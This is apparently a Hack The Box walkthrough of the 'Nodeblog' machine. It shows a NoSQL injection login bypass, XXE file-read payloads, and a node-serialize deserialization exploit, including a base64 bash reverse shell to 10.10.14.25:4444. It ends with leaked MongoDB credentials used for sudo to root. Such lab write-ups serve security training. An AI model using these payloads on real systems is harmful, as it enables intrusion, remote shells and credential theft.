

# Nodeblog

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Easy |
| **Topics** | NoSQL Injection, XXE, XML External Entity (XML Injection), Sudo Privileges, Clear-Text Credentials |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```bash
sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -v 10.10.11.139 -oN AllPorts
```

Result:

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

TCP Full Scan: 

```bash
nmap -p22,5000 -sCV -Pn -n 10.10.11.139 -oN FullScan
```

Result: 

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Web Inspection: 




User enumeration:

If we try with an invalid username, the server responds with a `Invalid Username`


But, if we try with a valid username like `admin`, the server responds with a `Invalid Password`, indicating that username we provided is valid. 


# Foothold

After the initial enumeration we found the port `5000` opened, which contained a Website with an authentication portal. We already validated the username `admin` to be valid, hence, we need to somehow bypass the authentication by providing only the username. 

After trying with different SQL payloads I found the website to be vulnerable to NoSQL injections. 

Payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#blind-nosql)


To bypass the authentication portal we need to use the payloads that are based on JSON. 

Since we already have a valid username, we just need to use the password comparision part. 

For instance: 

```bash
#instead of using: 
{"user": {"$ne": null}, "password": {"$ne": null}}
#use 
{"user": "admin", "password": {"$ne": null}}
```

Let’s capture the POST request for the authentication portal in Burpsuite and send it to repeater: 


As we can see, if we use the normal authentication variables, the server replies with `Invalid Password`

Let’s modify the request by replacing the payload with the JSON based, and also remember to modify the header `Content-Type` to `application/json` since we are sending data that is in JSON format. 

The request should look like this: 

```bash
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 25
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user": "admin", "password": {"$ne": null}}
```

After sending the request we will see that the response is much different (check render view):


This indicates that we were able to bypass the authentication portal. 

Raw Response: 


From the raw response we can see that a cookie was set to our session, hence, we can simply copy the cookie and add it to our session in the browser. 


Cookie detail:

```bash
auth=%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D
```

Decode it using URLencoded:

```bash
auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
```

Then, just refresh the web page and we will be logged as admin. 


Noticed that we have 2 new options available, one for `New Article` and the other for `Upload`

Let’s check the `New Article` option to see the result: 


After submiting the article, it looks like the fuction is not completed or functional at this time. 


However, this error gave us important information regarding the path installation of the app which seems to be `/opt/blog`

Now, let’s check the `Upload` option, we can see that it asks for a file to be uploaded, and if we pass a random txt file, the server replies with the following error: 


However, let’s also check the source code to understand more the error: 


Basically, the error is telling us that we have to upload a file following the format provided. 

Let’s copy it and break it down in a better presentation: 

```bash
<post><title>Example Post</title>
<description>Example Description</description>
<markdown>Example Markdown</markdown></post>
```

Create a file with XML extension and add the code above. 


Let’s try to upload the XML file.


After uploading the file, the server redirect us to the same file but this time it looks like the code was processed by the server, loading all the contents we specified in the file. 

Since the server allows to upload XML files, and those files are being processed by the server, that give us the opportunity to exploit the server by a XXE Injetion (XML External Entity)

To do so, we can check some example of payloads in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)


Let’s use the second one:

```bash
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

This code basically creates an entity called “`file`” that will contain the value of the file `/etc/passwd`

Then, this entity is called in one of custom fields, for instance, as we saw in the test file, we have 3 fields which are: `<title>`,`<description>`, and `<markdown>`

For this test, we can insert the entity `file` inside the `<markdown>` field, which should look like this: 


Note: to call the entity we need to add `&` at the start and `;` at the end. 

Let’s upload the file and see how the server process the file:


Success! As we can see, the file was processed by the server and the entity was called, containing all the data from the file `/etc/passwd`

### Server Enumeration:

Now, we can try to enumerate more the contents of the server by reading configuration files. 
As we saw previously, the app of the webserver is running on path `/opt/blog` hence it is expected to containg certaing configuration files. There are 2 ways to gather more information. 

1- One common file that we can find in servers that are based on NodeJS, is the filename `server.js`

Let’s change the request to point to the `server.js` file.

```bash
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>

<post><title>This is a test - Title</title>
<description>This is a test - Description</description>
<markdown>&file;</markdown></post>
```

After sending the payload, the server replied with the content of `server.js`

```bash
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}

app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)

app.listen(5000)
```

2- Fuzzing the files in `/opt/blog`

We can capture the request when we upload a file and send it to Intruder


To fuzz the filename we need to add a random name like `file` and make it the payload maker.

In payloads, clear all the predefined and load the following dictionary:

```bash
/usr/share/seclists/Fuzzing/fuzz-BoOoM.txt 
```


Note: Unmark the option from `Payload enconding - URL -encode these characters`

Next, in the `Settings` tab, go to `Grep - Match` clear all the predefined payloads and add the following expression:

```bash
Example Markdown
```

Note: We need this expression to differentiate/filter if a file is valid or invalid. 

Whenever we upload an invalid file, the server will reply with a `Example Markdown` in the content. See below: We uploaded a file named `unexistent.file` and the server replied with the `Example Markdown`


On the other hand, if we upload a file that actually exists in the path defined, the server will replied with the content of that file. 

---

After analyzing the content of the file `server.js` we will noticed that it contains 

```bash
...
...
const serialize = require('node-serialize')
...
...
...
function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}
```

Let’s break it down: 

1. The code imports the **`node-serialize`** library using **`require('node-serialize')`**. This library provides serialization and deserialization functionality for JavaScript objects.
2. The **`authenticated`** function is defined. This function appears to be responsible for checking whether a user is authenticated based on a provided input **`c`**. In this case, the object `c` refers to the cookie. 
3. Inside the **`authenticated`** function, there's an initial check for whether the input **`c`** is **`undefined`**. If it is, the function returns **`false`**, indicating that the user is not authenticated.
4. The code then attempts to unserialize the input **`c`** using **`serialize.unserialize(c)`**. This suggests that **`c`** is expected to be a serialized object, and this step is an attempt to deserialize it back into a JavaScript object.
5. The next part of the code seems to be comparing the **`sign`** property of the deserialized object with a computed hash value. The hash value is generated by hashing the concatenation of **`cookie_secret`** (which seems to be a variable holding a secret value) and the **`user`** property from the deserialized object. The hash is computed using the MD5 hashing algorithm.
6. If the computed hash matches the value of **`c.sign`**, the function returns **`true`**, indicating that the user is authenticated. Otherwise, it returns **`false`**.

In summary, this code seems to implement a basic authentication mechanism. It expects a serialized object containing a **`sign`** property (presumably a hash) and a **`user`** property. The code then checks if the hash of the concatenated **`cookie_secret`** and **`user`** matches the provided **`sign`**, and if so, it considers the user authenticated. 

Based on this information, if we remember, we were able to retrieve the cookie from the admin session, which was serialized by the previous function and URL encoded: 

```bash
auth=%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D
#or decoded: 
auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
```

We can take advantage of the `unserialize()` function by supplying it with a serialized, malicious JavaScript object. This object includes an Immediately Invoked Function Expression (IIFE) that allows us to execute arbitrary code. To construct such a serialized object, we can use the following JavaScript script:

```bash
var y = {
rce : function(){
require('child_process').exec('ping -c 1 10.10.14.25 /', function(error, stdout,
stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

As we can see, the payload is just a `ping` command, which we can use together with `tcpdump` on our local kali machine to verify if we have remote code execution. 

We generate the serialized object by running the script in kali:

```bash
node script.js
```

Note: you may need to install the package: `npm`, and`nodejs`. Then using `nmp install node-serialize`

Reference: [node-serialize - npm (npmjs.com)](https://www.npmjs.com/package/node-serialize)

As a result, we will have the data serialized as follows: (remove all the break lines `/n`) 

```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.25',function(error, stdout,stderr) { console.log(stdout) });}"}
```

However, to make this payload functional, we need to add the parentesis `()` at the end of the funtion. 

Like this: 

```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.25',function(error, stdout,stderr) { console.log(stdout) });}()"}
```

Explanation: a node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE).

If we use IIFE bracket `()`after the function body, the function will get invoked when the object is created. That means, that any command we insert in the body, will be eventually executed by the server. 

Reference: [Exploiting Node.js deserialization bug for Remote Code Execution | OpSecX](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

Once we have the serialized payload, we just need to go to the website and replace the current value of the cookie with our payload, but remember that we need to convert it to URL encode first, and finally just refresh the website. Our code should be executed inmediately. 

1- Use Decoder from Burpsuite to URLencode the payload:


2- Add the cookie to the browser session: 


3- Open tcpdum in kali and wait for ICMP packets. On the website, proceed to refresh the page:


Success! We received communication from the remote machine, indicating that we have Remote Code Execution. 

Now, let’s try to replace the ping command with a reverse shell payload. 

Again, let’s use the base64 version of Bash from https://www.revshells.com/

Payload serialized:

```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQ0NCAwPiYx | base64 -d | bash',function(error, stdout,stderr) { console.log(stdout) });}()"}
```

Payload URL Encoded:

```bash
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%63%32%67%67%4c%57%6b%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%6a%55%76%4e%44%51%30%4e%43%41%77%50%69%59%78%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

Add it to the browser cookie and refresh the page: 


We got access as `admin` user. 

For the user flag we can quickly list the directories from `/home`. We will see only one home directory for `admin` user, which is the one we got access to. 


We will notice that we can’t access our home directory `admin`, and that is because the folder has only permissions to read the directory/content, but not to access it (execution). 

However, we can clearly see that we are also the owners of that directory, hence, we just need to assign the permissions for execution and write without any further problem xD

```bash
chmod 755 /home/admin
```


# Privilege Escalation

After gaining access as `admin` user, we will see some interesting files in the home directory.


One of the files is the `.bash_history` which contains all the commands executed by the `admin` user in the previous sessions. 

Checking the file we will see that the user was connected to a local database running on Mongo. 


We can try to connect to the database to see if it asks for credentials. 

```bash
mongo --host mongodb://localhost:27017
```

However, it looks like it is not password protected


Now, we can try to enumerate the databases and the collections to see if it contains credentials or relevant data. 

We can use the following commands:

```bash
show dbs
use <db>
show collections
db.<collection>.find()  #Dump the collection
```

Enumerating Databases: 


Enumerating Collections (tables)


In summary, we have the following collections:

| Database  | Collections (tables) | Collections (tables) |
| --- | --- | --- |
| admin | system.version |  |
| blog | articles  | users |
| config | system.sessions |  |
| local | startup.log |  |

Now, there are 2 potential collections that could contain credentials, those are:

1- users

2- system.sessions

After enumerating the collection `users` we were able to identify some clear-text credentials for the `admin` user


```bash
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

Credentials:

```bash
"username" : "admin", 
"password" : "IppsecSaysPleaseSubscribe"
```

Now, let’s try to test the credentials with the command `sudo -l` for instance. 


After providing the passwod, the command was executed successfully, indicating that password is valid and also revealing all the permissions for `admin` which basically includes the execution of any command as root. 

Based on this information, we can just execute `sudo su -` and we will be able to escalate privileges as root. 


[Owned NodeBlog from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/430)